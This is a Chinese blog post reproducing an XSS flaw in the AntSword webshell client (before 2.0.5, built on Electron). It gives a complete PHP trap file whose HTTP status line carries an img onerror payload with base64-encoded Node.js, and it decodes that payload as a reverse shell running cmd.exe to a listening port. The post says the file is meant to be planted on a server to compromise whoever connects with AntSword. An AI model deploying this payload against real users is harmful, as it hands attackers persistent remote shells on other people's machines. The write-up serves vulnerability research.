 ﻿---
layout: post
title: 漏洞复现蚁剑 Electron XSS反弹shell复现
date: 2019-09-19
categories: blog
tags: [漏洞复现，蚁剑]
description: 蚁剑 Electron XSS
---

####一、环境
>antsword2.0.5以前，antsword使用了Electron，Electron是由Github开发，用HTML，CSS和JavaScript来构建跨平台桌面应用程序的一个开源库。 Electron通过将Chromium和Node.js合并到同一个运行时环境中，并将其打包为Mac，Windows和Linux系统下的应用来实现这一目的。
####二、复现过程
>phpstudy网站根目录添加webshell文件，ant.php，存在XSS
![](/images/antsword/1.png)

>phpstudy网站根目录添加webshell文件，ant.php
```
<?php
header("HTTP/1.1 500 Not <img src=# onerror='eval(new Buffer(`dmFyIG5ldCA9IHJlcXVpcmUoIm5ldCIpLCBzaCA9IHJlcXVpcmUoImNoaWxkX3Byb2Nlc3MiKS5leGVjKCJjbWQuZXhlIik7CnZhciBjbGllbnQgPSBuZXcgbmV0LlNvY2tldCgpOwpjbGllbnQuY29ubmVjdCg2Njc3LCAiMTI3LjAuMC4xIiwgZnVuY3Rpb24oKXtjbGllbnQucGlwZShzaC5zdGRpbik7c2guc3Rkb3V0LnBpcGUoY2xpZW50KTsKc2guc3RkZXJyLnBpcGUoY2xpZW50KTt9KTs=`,`base64`).toString())'>");
?>
```
>特别需要注意webshell的内容是base64编码之后的，编码之前为

```
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(6677, "127.0.0.1", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```
>本地nc监听端口
![](images/antsword/2.png)

>使用蚁剑访问webshell
![](images/antsword/3.png)

>webshell反弹成功
![](images/antsword/4.png)

####三、总结
>适用范围：挂一个webshell在服务器上，等别人用蚁剑来连，连接之后就算蚁剑关闭，shell仍存在
参考链接：
[*][https://github.com/theLSA/CS-checklist](https://github.com/theLSA/CS-checklist)
[*][https://www.anquanke.com/post/id/176379](https://www.anquanke.com/post/id/176379)













